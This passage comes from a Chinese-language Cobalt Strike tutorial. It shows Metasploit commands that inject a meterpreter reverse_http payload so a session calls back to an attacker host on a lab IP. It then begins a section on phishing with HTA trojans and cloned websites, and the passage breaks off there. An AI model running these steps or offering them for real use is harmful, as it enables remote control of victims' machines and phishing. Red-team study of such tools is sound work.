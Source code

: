 

### 操作步骤

首先查看MSF中需派生会话的ID, 输入命令: `sessions`, 此处要派生的会话ID为6 (下面的截图截错了)

![image-20221006163339205](Cobalt Strike的使用/image-20221006163339205.png)



输入如下命令进行派生会话, 派生完成后返回会话的进程PID为3322

```
use exploit/windows/local/payload_inject  

set payload windows/meterpreter/reverse_http

set lhost 192.168.47.134

set lport 80

set disablepayloadhandler True  //默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true

set session 6

exploit
```

![image-20221006173316522](Cobalt Strike的使用/image-20221006173316522.png)

​	

返回CS查看上线的会话 (PID:3332)

![image-20221006173808452](Cobalt Strike的使用/image-20221006173808452.png)

​	

# 六、钓鱼攻击

## HTA木马

### 简介

HTA是HTML Application的缩写，直接将HTML保存成HTA的格式，是一个独立的应用软件。HTA虽然用HTML、JS和CSS编写，却比普通网页权限大得多，它具有桌面程序的所有权限。就是一个html应用程序，双击就能运行

HTA木马一般配合网站克隆进行钓鱼攻击



### 步骤

生成HTML后门(HTA文件), 选择相应的监听器和模式,有三种模式,分别为`Powershell`、`VBA`、`Executable`
